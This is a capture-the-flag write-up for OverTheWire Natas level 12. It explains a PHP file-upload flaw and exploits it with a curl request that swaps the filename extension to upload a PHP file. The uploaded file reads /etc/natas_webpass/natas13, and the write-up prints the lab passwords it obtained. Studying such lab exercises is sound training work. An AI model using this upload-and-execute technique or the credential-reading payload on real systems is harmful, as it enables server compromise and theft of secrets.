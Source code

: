 Level #12 go to URL and find natas13 user password

- URL: http://natas12.natas.labs.overthewire.org/
- User: natas12
- Password: YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

Useful reads for this chanllenge:
- [pathinfo()](https://www.php.net/manual/es/function.pathinfo.php)
- [$_FILES](https://oregoom.com/php/files/)
- [move_uploaded_files()](https://www.php.net/manual/en/function.move-uploaded-file.php)
- [file upload vulnerabilities](https://www.prplbx.com/resources/blog/exploiting-file-upload-vulnerabilities/)
- [postman file upload](https://blog.filestack.com/api/step-step-guide-postman-upload-file/)

After navigating to URL an html page with a form with 4 inputs (2 type=hidden,1 type=file and 1 type=submit) and an anchor element with the text "View sourcecode" is loaded.  
Clicking on the anchor elements redirects to the source code of the php script being run by server:
  
```PHP
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";
    //generate a p from 0..9
    for ($p = 0; $p < $length; $p++) {
	//append to $string the character at a random index between 0 and length-1 of the $characters string
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }
    //return the randomly generated string $string of 10 char length
    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    //takes $dir and appends '/', a random generated string consisting of 10 chars, a '.' and an extension $ext
    $path = $dir."/".genRandomString().".".$ext;
    //checks if file in $path generated exists, if so keeps generating paths until it doesn't exists and returns
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    //gets the extension of the file path $fn
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

//check if 'filename' key exists in $_POST array
if(array_key_exists("filename", $_POST)) {
    //generates a path like upload/<ten_char_string>.pathinfo($_POST['filename'], PATHINFO_EXTENSION);
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

	//check if uploadedfile size is greater than 1000 bytes
        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
	//if uploadedfile doesn't exceed 1000 bytes then move uploaded file to target path
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```
  
There is no enforcing on the type of file that gets uploaded to the server other than generating the filename as a .jpg.  
Recreated the request with postman:
```Bash
curl --location 'http://natas12.natas.labs.overthewire.org/index.php' \
--header 'Authorization: Basic bmF0YXMxMjpZV3FvMHBqcGNYelNJbDVOTUFWeGcxMlF4ZUMxdzlRRw==' \
--form 'MAX_FILE_SIZE="1000"' \
--form 'uploadedfile=@"/Users/kmnj500/Documents/overthewire/natas/phpfile.php"' \
--form 'filename="1gj2dcci21.php"'
```  
  
The contents of phpfile.php.
```PHP
<?php
echo file_get_contents('/etc/natas_webpass/natas13');
?>
```
  
The password for natas13 is lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
